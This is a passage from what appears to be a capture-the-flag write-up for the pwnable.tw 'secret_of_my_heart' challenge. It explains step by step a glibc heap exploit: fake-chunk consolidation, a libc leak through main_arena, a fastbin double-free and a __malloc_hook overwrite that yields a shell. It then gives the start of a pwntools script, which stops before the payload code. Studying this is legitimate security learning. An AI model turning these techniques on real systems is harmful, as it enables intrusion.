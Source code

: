 So, you have to make a fake fd and bk pointer for chunk B, that's why they allow us to get the address of heap easily. You can forge 2 fake chunks, that their fd and bk pointers point to chunk B, inside chunk A.

- After merging chunk B into chunk A, allocate a chunk of 256 bytes to get chunk A of 256 bytes.

### Step 2: Leak libc

- Because ```prev_inused``` bit of chunk C is marked again, you could free chunk B and allocate it again to ovewrite this bit.
- Free chunk C to merge chunk C into chunk A (remember to make fd, bk's pointers point to fake chunks).
- Chunk A now has the address of ```main_arena```, so showing the secret of chunk A to get the libc address.

### Step 3: Get shell

- Chunk A is now ```0x220``` bytes, so allocate a chunk of ```0x70``` bytes to get chunk A of ```0x70``` bytes.
- Allocate a chunk of ```0x70``` bytes again.
- Free chunk A, the chunk above, and chunk A respectively to trigger double-free bug.
- Make ```_malloc_hook``` become the head of ```0x70``` entry.
- Overwrite ```_malloc_hook``` with one gadget and get the shell.


### Exploit
```py
from pwn import *

exe = ELF("./secret_of_my_heart_patched")
libc = ELF("./libc_64.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe
context.log_level = "debug"

def conn():
    if args.LOCAL:
        r = process([exe.path])
        # r = gdb.debug ([exe.path], "b *main")
        # r = gdb.debug ([exe.path], "b *__libc_start_main+214")
    else:
        r = remote("chall.pwnable.tw", 10302)

    return r

def add_secret (p, size, name, secret):
    p.sendafter (b'Your choice :', b'1')
    p.sendafter (b'Size of heart : ', size)
    p.sendafter (b'Name of heart :', name)
    p.sendafter (b'secret of my heart :', secret)

def show_secret (p, id):
    p.sendafter (b'Your choice :', b'2')
    p.sendafter (b'Index :', id)

def delete_secret (p, id):
    p.sendafter (b'Your choice :', b'3')
    p.sendafter (b'Index :', id)

def Secret (p, id):
    p.sendafter (b'Your choice :', b'3869')

def main():
    p = conn()
```